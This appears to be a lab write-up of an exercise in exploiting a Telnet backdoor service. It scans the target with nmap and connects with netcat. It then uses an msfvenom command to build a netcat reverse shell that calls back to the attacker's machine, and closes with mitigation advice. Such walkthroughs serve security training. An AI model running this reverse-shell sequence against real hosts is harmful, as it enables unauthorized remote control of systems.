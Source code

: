 # Telnet

Telnet is a network protocol used to provide a command-line interface for communication with a remote device or server. It operates over TCP/IP and allows users to log into remote systems, execute commands, and manage devices as if they were directly connected to them.

### Scope:

In this exercise, I will go through the steps of performing enumeration against a target host, and how to identify unsecure protocols (Telnet) that may be enabled on a system and how to take advantage and exploit it. In this case, I will be using MSFvenm for the exploit. I will also be using Wireshark to see how the traffic generated looks like, and to also confirm that the connection has been established. 

### Tools and Technology:
Linux, MSFvenom, and Wireshark

## Enumeration:

To get started, I used Nmap to scan against the target host:

```
nmap 10.10.169.221 -Pn -sS -T5 -p- -vvv
```

![Pasted image 20240918162959](https://github.com/user-attachments/assets/d8c51f70-2762-4bf5-bcfa-27562b37045f)

Based on the output, I can see that port 8012 is open. I then tested the open port using Netcat:

```
nc 10.10.169.221 8012
```

![Pasted image 20240918163707](https://github.com/user-attachments/assets/06e2d5ee-9349-4742-8649-26bdea9d4057)

So far, based on the information gathered using Nmap and Netcat, I know that following:

+ It looks like the telnet service is running but on a non-default port (8012)
+ The service is name "Skidy's Backdoor"
+ Given the name above, it's possible that a user exists with the name "Skidy"

## Command Execution:

Given the output above, I am able to execute commands on the remote target host. To test, I used the ping command:

```
ping 10.10.8.55 -c1
```

![Pasted image 20240918154742](https://github.com/user-attachments/assets/beb4522a-3e51-47f4-aef0-faa80b60ede3)

Looking at Wireshark, I was able to get an ICMP response from the remote server, which means that I was able to execute the command successfully:

![Pasted image 20240918163559](https://github.com/user-attachments/assets/7768d463-417e-4949-bc1d-1c6cd9c6e2d7)

## MSFvenom

MSFVenom is a command-line tool that is part of the Metasploit Framework. MSFVenom can generate a wide variety of payloads, which are pieces of code that exploit vulnerabilities in target systems.

![Pasted image 20240918172441](https://github.com/user-attachments/assets/bc914b81-25bd-41be-8ac4-941158e72d4a)

Next, I generated a reverse shell payload using msfvenom:

![Pasted image 20240918162054](https://github.com/user-attachments/assets/f3b72690-3c87-471b-8ef4-90033966a292)

```
msfvenom -p cmd/unix/reverse_netcat lhost=10.10.8.55 lport=4444 R
```

This is a breakdown of the command I am using:

+ -p = payload
+ lhost = local host IP address (this is my machine's IP address)
+ lport = the port to listen on (this is the port on my machine)
+ R = export the payload in raw format

![Pasted image 20240918155327](https://github.com/user-attachments/assets/e1ddfd39-2322-496b-8f9f-3bba3f6a930e)

Executing the reverse shell on the remote system:

![Pasted image 20240918161932](https://github.com/user-attachments/assets/1802b354-d070-4f61-8b41-8e91471a9ae9)

Next I needed to create a listening port:

![Pasted image 20240918163517](https://github.com/user-attachments/assets/29861630-18e5-41c6-aa39-4266f5d0da93)

Looking at Wireshark, I can see that the connection was established:

![Pasted image 20240918163114](https://github.com/user-attachments/assets/79363012-b260-48c8-ac5a-3bbb1dea2793)

This is a closer look at one of the packets:

![Pasted image 20240918163435](https://github.com/user-attachments/assets/432a3a52-8061-490d-8bea-f9f688c129b0)

### Summary:

In this exercise, I was able to identify the telnet service was running on the target host and exploit it using MSFvenom. For mitigation against these types of attacks, it's important to ensure that unsecure protocols such as Telnet, are disabled. If needed, you can replace Telnet with SSH for secure encrypted communications. It's also important to conduct regular security audits and vulnerability assessments to identify and mitigate potential risks associated with Telnet and other services that may be enabled/running as part of a misconfiguration. 

